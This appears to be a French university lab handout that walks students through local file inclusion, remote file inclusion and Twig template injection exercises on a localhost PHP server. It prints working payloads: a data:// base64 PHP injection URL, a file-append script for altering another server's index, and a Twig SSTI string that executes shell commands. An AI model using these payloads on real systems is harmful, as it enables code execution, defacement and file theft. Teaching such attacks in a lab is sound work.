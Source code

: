 # TP - Sécurité LFI, RFI et Template Injection
- **Auteur :** DESBOUYS Maxence, MAGALHAES Thomas, THEUWS Gabriel et VALENTIN Guillaume
- **Année :** 2021 -2022
- **Date de rendu :** 2 février 2022 (1 semaine pour le faire)
- **Adresse mail du compte rendu :** thomas.magalhaes@etu.uca.fr
- **Le rendu :** un document .txt ou .pdf répondant aux questions

# Disclaimer
Tous les éléments que vous verrez dans ce TP ont été "patchés" dans les versions les plus récentes. De plus, vous êtes seul responsable de l’usage que vous pourriez faire de ces techniques sur des sites tiers, elles vous sont présentées ici à des fins éducatives.

# Le tp
### Mise en place :

 - Récupérer le dépôt
 - Vérifiez que vous avez php sur votre machine *(php est déjà présent à l'iut)*
 - Lancer la commande qui suit à la racine de ce projet afin de démarrer un serveur php
   ``` php --php-ini php.ini -S localhost:3054 ```
  - Utilisez votre navigateur préféré et allez sur l’url.
  [http://localhost:3054/](http://localhost:3054/)

### Les astuces
Astuce regarder : Null Byte Injection
   
## LFI
   
### Exercice n°1.1 LFI
Cliquez sur "Exo 1 LFI"

**Votre mission : ~~(si vous l'acceptez)~~**

Trouvez le moyen d'afficher dans la page le contenu du fichier "cible.txt" .
Ce dernier est situé au même niveau dans l'arborescence que la page.
Notez l'url saisie dans votre compte rendu.

---

### Exercice n°1.2 LFI
Cliquez sur "Exo 2 LFI"

**Votre mission :**

Trouvez le moyen d'afficher dans la page le contenu du fichier "cible.txt" .
Ce dernier est situé au même niveau dans l'arborescence que la page. 
Notez l'url saisie dans votre compte rendu.

---

### Exercice n°1.3 LFI
Cliquez sur "Exo 2 LFI"

**Votre mission :**

Trouvez le moyen d'afficher dans la page le contenu du fichier "cibleHaute.secu" .
Ce dernier est situé à un niveau plus haut dans l'arborescence. 
Notez l'url saisie dans votre compte rendu.
Dans le même temps,  trouver un moyen de récupérer tous les utilisateurs de la machine.
Notez l'url saisie dans votre compte rendu ainsi que le résultat.

---

## RFI

### Exercice n°2.1 RFI
Cliquez sur "Exo 1 RFI"

**Votre mission :**

Trouvez le moyen d'afficher le contenu d'un autre site dans votre page.
Notez l'url saisie dans votre compte rendu.

---

### Exercice n°2.2 RFI
Cliquez sur "Exo 2 RFI"

**Votre mission :**

Trouvez le moyen d'afficher le contenu d'un autre site dans votre page.
Notez l'url saisie dans votre compte rendu.

---

### Exercice n°2.3 RFI
Cet exercice ce fait avec un autre binôme/collègue. Si vous n'en n'avez pas ou qu'il n'est pas à cet exercice, nous mettrons en place un serveur accessible par l'intranet. \[EDIT\] vous pouvez aussi vous attaquer vous même, dans ce cas votre serveur est toujours localhost.

#### Mise en place pour le serveur :
2. Créer un fichier index.php qui possède un titre h1 et une inclusion de fichier sans vérification de l’entrée. Vous pouvez faire comme [l'index.php de l'exercice 1](/exo_rfi/index.php).
3. Lancer votre serveur PHP en précisant l'IPv4 ou localhost au choix.

#### Protocole à suivre pour le client :
1. Avec votre navigateur préféré, obtenir la page d'accueil.
2. Puisque vous connaissez la faille, en injectant de l'HTML ou du PHP de votre choix. Si vous n'avez vraiment pas d'idée, prenez ce [index.html](https://github.com/LINCnil/Guide-RGPD-du-developpeur/blob/main/index.html).
```pour obtenir le lien brut, cliquez sur le bouton 'raw'```

---

### Exercice n°2.3 RFI suite
```diff
-Il est maitenant temps de jouer !!!
```

Mais avant des explications qui vous seront utiles dans votre périple.

L'url suivant permet d'afficher le phpinfo() sur serveur ciblé.
```
http://localhost:3054/exo_rfi/?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2B
```
La première partie (```http://localhost:3054/exo_rfi/?file=```) correspond à la partie dite "normale".

La seconde partie (```data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2B```) correspond à la partie saisie par l'utilisateur.

>data://text/plain;base64,

Permet d'envoyer au serveur du text en base 64 (utile pour l'attaque)

>PD9waHAgcGhwaW5mbygpOz8

Correspond ici a ```<?php phpinfo();?>```  en base 64

>%2B

Termine l'url

---

Pour trouver la correspondance en base 64 de votre code php voir le lien ci-dessous

EDIT 1 (Il faut retirer les caractères "+","-" et "=" si il y en a à la fin)

EDIT 2 Prenez la base64 url encoding

[https://www.base64url.com/](https://www.base64url.com/)


```
input: <?php echo "bonjour"; ?>
result: PD9waHAgZWNobyAiYm9uam91ciI7ID8+
result clean: PD9waHAgZWNobyAiYm9uam91ciI7ID8
url final : http://localhost:3054/exo_rfi/?file=data://text/plain;base64,PD9waHAgZWNobyAiYm9uam91ciI7ID8%2B
```

**Votre mission :**

Vous allez devoir rajouter à l'index du serveur d'autre personne vos noms.

Le script php qui suit vous permet d'ajouter en fin de fichier du texte.
Utilisez le pour ajouter vos prénoms dans l'index du serveur ciblé. 
```php
<?php
$file = ''; // <--- le fichier ou sera ajoute le code
$text = ""; // <--- le texte a ajouter
file_put_contents($file, $text, FILE_APPEND | LOCK_EX);
?>
```
Notez l'url saisie dans votre compte rendu ainsi que les étapes pour l'obtenir.

---

### Exercice n°3.1 SSTI

Pour commencer vous devez lancer votre machine VDN nommé docker-tmp, puis dans celle-ci cloner le repository git : https://github.com/GoSecure/template-injection-workshop. 
Ensuite vous lancerez un docker dans le fichier `template-injection-workshop/12_template_twig_php/` et vous vous y connecterez via le port `8012` de local host (127.0.0.1):
```bash
$ vdn docker-tmp
vdn:...$ git clone https://github.com/GoSecure/template-injection-workshop
vdn:...$ cd template-injection-workshop/12_template_twig_php/
vdn:.../12_template_twig_php$ docker-compose up

vdn:...$ links http://localhost:8012/
 ### ou ###
vdn:...$ links 127.0.0.1:8012/
```

**Votre mission :**

Une fois cela fait votre mission consite à récupérer le flag en utilisant une template injection.

---

### Aide
La commande suivante vous sera utile dans votre recherche du flag: ``{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("echo -E `ls /`")}}``

Regarder son résultat et sa structure pour en déduire les informations utiles.
